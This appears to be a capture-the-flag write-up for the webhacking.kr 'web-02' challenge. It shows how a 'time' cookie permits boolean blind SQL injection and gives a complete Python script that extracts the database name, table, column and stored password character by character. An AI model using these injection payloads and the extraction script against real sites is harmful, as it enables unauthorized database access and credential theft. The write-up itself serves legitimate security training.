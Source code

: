 ## Inspection

Initial website is just a plain html - nothing special.

![alt text](imgs/image.png)

But if we check the source code, we can see a interesting comment.

```html
<h2>Restricted area</h2>Hello stranger. Your IP is logging...<!-- if you access admin.php i will kick your ass -->
```

Now we know, that there is a file `admin.php`, so lets access it by appending our URL with `/admin.php`.

`https://webhacking.kr/challenge/web-02/admin.php`

This website is again, a plain html, but now it also has a input field.  

![alt text](imgs/image-1.png)

After inspecting both sites more properly, we can find that there is a comment containing time.

```
<!--
2025-01-22 09:21:33
-->
```

But since the time is little bit off - and after refreshing the site it does not change, it gives us a little hint, that this challenge might be somewhat connected to this.

After checking cookies, we can see that there is a cookie for `time`. 

![alt text](imgs/image-2.png)

If we change that cookie value, then the comment with value of time also changes. After setting the cookie to 1, the comment changes to:

```html
<!--
2070-01-01 09:00:01
-->
```

And after setting it to 0, the comment changes to:

```html
<!--
2070-01-01 09:00:00
-->
```

These are hints, that this cookie is connected to a DB of some sort, this is also a hint that we are dealing with SQL injection. The hypothesis is, that if DB returns 0 (on false) or 1 (on true), then the time will be also changed.

We can test this with setting cookie to this value.

```
LENGTH((SELECT DATABASE())) = 1
```

- **LENGTH** returns a length of string
- **SELECT DATABASE()** returns us a name of the used DB
- **.. = 1** compares it to 1, this whole expression returns boolean value

After setting our `time` cookie to this expression and refreshing the site, we can see that the time has changed to:

```html
<!--
2070-01-01 09:00:00
-->
```

So the hypothesis was correct, if we inject a SQL query with boolean comparison, the cookie value will be decided by database.

## Exploitation

For exploiting this security flaw and getting the password, we need to gain:

    - length of database name
    - database name
    - length of table name
    - table name
    - length of column
    - column name
    - length of password
    - password

Getting a length of name is pretty simple, we just have to run a `for` loop that will compare actual length with value from loop.

For example, this is how we can get length of database name: 
```python
    for i in range(1, 20):
            my_cookies = dict(time='LENGTH((SELECT DATABASE())) = {}'.format(i)) # Injecting cookie
            r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies) # Sending request with our cookie
            if "2070-01-01 09:00:01" in r.content.decode(): # This is boolean 1
                database_length = i
                break
```

Gaining whole name is little bit trickier, but nothing impossible if we have correct length of name. For this, we can use `SUBSTR` function, which will be used to compare every position in length of name with every "probable" ascii character.

```python
	for i in range(database_length + 1):
		for character in string.ascii_lowercase + string.digits: # testing characters from ascii
			my_cookies = dict(time='SUBSTR((SELECT DATABASE()), {}, 1) = "{}"'.format(i, character))
			r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
			print("sending request\n")
			if "2070-01-01 09:00:01" in r.content.decode():
				database_name += character
				print(database_name)
				break
```

## Final solution

This is my final solution, enjoy!

```python
import requests
import string 
url = "https://webhacking.kr/challenge/web-02/"

session = requests.Session()

try: 
	# Getting length of database name
	database_length = 0
	for i in range(1, 20):
		my_cookies = dict(time='LENGTH((SELECT DATABASE())) = {}'.format(i))
		r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
		if "2070-01-01 09:00:01" in r.content.decode():
			database_length = i
			break
	print("Length of database name is {}".format(i))

	database_name = ""

	# Getting database name 
	for i in range(database_length + 1):
		for character in string.ascii_lowercase + string.digits:
			my_cookies = dict(time='SUBSTR((SELECT DATABASE()), {}, 1) = "{}"'.format(i, character))
			r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
			print("sending request\n")
			if "2070-01-01 09:00:01" in r.content.decode():
				database_name += character
				print(database_name)
				break
	print("Database name is {}".format(database_name))

	table_length = 0
	
	# Getting length of table name
	for i in range(1,20):
		my_cookies = dict(time='LENGTH((SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA="{}" LIMIT 0,1)) = {}'.format(database_name, i))
		r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
		if "2070-01-01 09:00:01" in r.content.decode():
			table_length = i
			break
	
	print("Table name length is {}".format(table_length))

	# Getting name of table
	table_name = ""
	for i in range(1, table_length+1):
		for character in string.ascii_lowercase + '_':
			my_cookies = dict(time='SUBSTR((SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = "{}" LIMIT 0,1), {}, 1) = "{}"'.format(database_name, i, character))
			r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
			if "2070-01-01 09:00:01" in r.content.decode():
				print(character	)
				table_name += character
				break

	print("Table name is {}".format(table_name))

	# Getting length of column
	column_length = 0;
	for i in range(1,20):
		my_cookies = dict(time='LENGTH((SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = "{}" LIMIT 0,1)) = {}'.format(table_name,i))
		r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
		if "2070-01-01 09:00:01" in r.content.decode():
			column_length = i
			break
	
	# Getting name of column
	column_name = ""
	for i in range(1, column_length + 1):
		for character in string.ascii_letters + string.digits + '_':
			my_cookies = dict(time='SUBSTR((SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = "{}" LIMIT 0,1),{},1) = {}'.format(table_name, i, character))
			r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
			if "2070-01-01 09:00:01" in r.content.decode():
				column_name += character
				print(column_name)
				break
	
	# Getting length of password
	password_length = 0
	for i in range(1,20):
		my_cookies = dict(time='LENGTH((SELECT {} FROM {} LIMIT 0,1)) = {}'.format(column_name, table_name, i))
		r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)	
		if "2070-01-01 09:00:01" in r.content.decode():
			password_length = i
			print(password_length)
			break

	# Finally, getting password
	password = ""
	for i in range(1, password_length + 1):
		for character in string.ascii_lowercase + string.digits + '_':
			my_cookies = dict(time='SUBSTR((SELECT {} FROM {} LIMIT 0,1), {}, 1) = "{}"'.format(column_name, table_name, i, character))
			r = requests.get("https://webhacking.kr/challenge/web-02/", cookies = my_cookies)
			if "2070-01-01 09:00:01" in r.content.decode():
				password += character
				print(password)
				break
			
	print("FINAL PASSWORD: {}".format(password))
except Exception as e:
	print("Error: {}".format(e))

```